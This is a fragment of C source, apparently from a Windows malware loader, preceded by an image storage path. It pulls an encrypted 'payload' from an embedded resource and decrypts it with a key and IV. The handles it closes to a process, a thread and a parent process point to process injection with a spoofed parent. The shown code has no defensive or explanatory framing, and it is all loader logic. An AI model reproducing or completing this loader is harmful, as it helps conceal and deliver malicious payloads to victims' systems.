```C
    if (hResData == NULL) {
        printf("[!] LoadResource Failed: %d\n", GetLastError());
        return 1;
    }

    PVOID pCipherText = LockResource(hResData);
    if (pCipherText == NULL) {
        printf("[!] LockResource Failed: %d\n", GetLastError());
        return 1;
    }

    printf("[i] Encrypted payload loaded, size: %lu bytes\n", dwCipherTextSize);

    // Decrypt the payload
    printf("[i] Decrypting Payload...\n");
    if (!SimpleDecryption(pCipherText, dwCipherTextSize, key, iv, &pPlainText, &dwsPlainTextSize)) {
        printf("[!] SimpleDecryption Failed\n");
        CloseHandle(hProcess);
        CloseHandle(hThread);
        CloseHandle(hParentProcess);
        return 1;
    }
    printf("[i] Decrypted payload size: %lu bytes\n", dwsPlainTextSize);
}
```

